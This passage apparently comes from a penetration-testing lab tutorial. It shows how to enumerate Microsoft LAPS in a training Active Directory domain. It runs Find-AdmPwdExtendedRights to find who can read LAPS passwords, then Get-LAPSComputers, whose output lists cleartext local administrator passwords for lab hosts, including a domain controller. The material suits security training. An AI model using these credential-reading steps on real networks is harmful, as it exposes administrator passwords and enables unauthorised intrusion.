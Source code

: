 The `Find-AdmPwdExtendedRights` checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights." Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for.

#### Using Find-AdmPwdExtendedRights

Using Find-AdmPwdExtendedRights\
`PS C:\htb> Find-AdmPwdExtendedRights`

`ComputerName Identity Reason`\
`------------ -------- ------`\
`EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated`\
`EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins Delegated`\
`SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated`\
`SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins Delegated`\
`WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated`\
`WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins Delegated`

We can use the `Get-LAPSComputers` function to search for computers that have LAPS enabled when passwords expire, and even the randomized passwords in cleartext if our user has access.

#### Using Get-LAPSComputers

Using Get-LAPSComputers\
`PS C:\htb> Get-LAPSComputers`

`ComputerName Password Expiration`\
`------------ -------- ----------`\
`DC01.INLANEFREIGHT.LOCAL 6DZ[+A/[]19d$F 08/26/2020 23:29:45`\
`EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30`\
`SQL01.INLANEFREIGHT.LOCAL 9G#f;p41dcAe,s 09/26/2020 00:30:09`\
`WS01.INLANEFREIGHT.LOCAL TCaG-F)3No;l8C 09/26/2020 00:46:04`
